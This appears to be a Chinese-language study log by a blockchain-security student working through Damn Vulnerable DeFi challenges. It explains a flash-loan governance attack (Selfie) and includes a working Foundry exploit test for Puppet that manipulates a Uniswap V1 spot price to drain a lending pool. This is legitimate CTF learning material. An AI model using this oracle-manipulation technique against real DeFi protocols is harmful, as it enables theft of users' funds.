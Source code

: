 ```yaml
---
timezone: Asia/Shanghai 
---
```


# Lori

1. 自我介绍
[Lori](https://www.notion.so/Lori-b62d3531f44f467baa56ddb161f0ef3e?pvs=21), 研三在读学生，研究方向为区块链安全。

2. 你认为你会完成本次残酷学习吗？
保证至少能够完成90%，并参加 BlazCTF。

## Notes

<!-- Content_START -->

### 2024.07.11

Ethernaut 之前我已经做完了了，写了部分[解析和PoC](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/ethernaut).
damn-vulnerable-defi 写了一半，接下来会接着完成剩余的部分，前面3天先复习。
[Selfie](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/selfie/Selfie.t.sol)
这是有关治理投票的相关攻击，算是比较经典的。
我们注意到，想要提出的提案必须满足以下条件：
1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
2. 接收者不能是治理合约本身msg.sender
第一点，由于没有对持有代币时间的限制，攻击者可以通过闪电贷来绕过第一点的检查。

### 2024.07.12

[Puppet](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
Root cause：Spot price
这是一个lending protocol, 通过uniswapv1交易对的瞬时价格来计算coll，攻击者可以通过swap来影响价格，从而掏空池子。

log：
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```

<!-- Content_END -->

